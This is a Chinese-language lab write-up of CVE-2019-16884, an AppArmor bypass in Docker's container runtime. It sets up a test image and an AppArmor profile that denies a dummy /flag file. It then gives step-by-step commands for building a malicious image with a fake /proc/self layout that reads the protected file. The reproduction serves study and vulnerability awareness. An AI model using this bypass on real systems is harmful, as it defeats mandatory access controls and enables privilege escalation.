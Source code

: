 ```yaml
---
title: CVE-2019-16884
---
```


<center><h1>CVE-2019-16884</h1><b>本文作者：一生热爱</b><br><br></center>

---

## 一、简介

apparmor 可以让管理员通过程序的配置文件限制程序的功能，其本身作为一个内核模块集成在 Linux 内核中（可能发现 lsmod 里面并没有 apparmor，这是因为 lsmod 展示的是所有动态加载的内核模块，通过 `ls /sys/module/` 就可以看到所有的内核模块包括系统中内置的），因此其通过内核提供强访问控制。

CVE-2019-16884 可以使得用户绕过 apparmor 的一些策略进而可以实现一些提权操作。

```bash
cat /sys/module/apparmor/parameters/enabled       # 查看是否开启apparmor，返回为Y表示开启
sudo cat /sys/kernel/security/apparmor/profiles   # 查看加载的配置文件
```

## 二、构建实验环境

```bash
> docker run -it ssst0n3/docker_archive:CVE-2019-16884

ubuntu login: root
Password: root
```

## 三、漏洞复现

1、创建 apparmor 规则

```bash
> cat > /etc/apparmor.d/no_flag <<EOF

#include <tunables/global>
profile no_flag flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>
  file,
  deny /flag r,
}
EOF
```

2、创建一个 flag 文件

```bash
echo "Al1ex is comming" > /tmp/flag
```

3、应用规则

```bash
/sbin/apparmor_parser --replace --write-cache /etc/apparmor.d/no_flag
```

4、检测，启动一个正常镜像此时无权限读取/flag内容3

```bash
docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag busybox cat /flag
```

5、利用漏洞启用一个恶意镜像，可以读取/flag

```bash
> mkdir -p rootfs/proc/self/{attr,fd}
> touch rootfs/proc/self/{status,attr/exec}
> touch rootfs/proc/self/fd/{4,5}
> cat <<EOF > Dockerfile
FROM busybox
ADD rootfs / 
VOLUME /proc
EOF
> docker build -t apparmor-bypass .    
> docker run --rm --security-opt "apparmor=no_flag" -v /tmp/flag:/flag apparmor-bypass cat /flag
```

<img width="1200" src="/img/Snipaste_2022-07-07_21-13-36.png">

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月7日"
    }
  }
</script>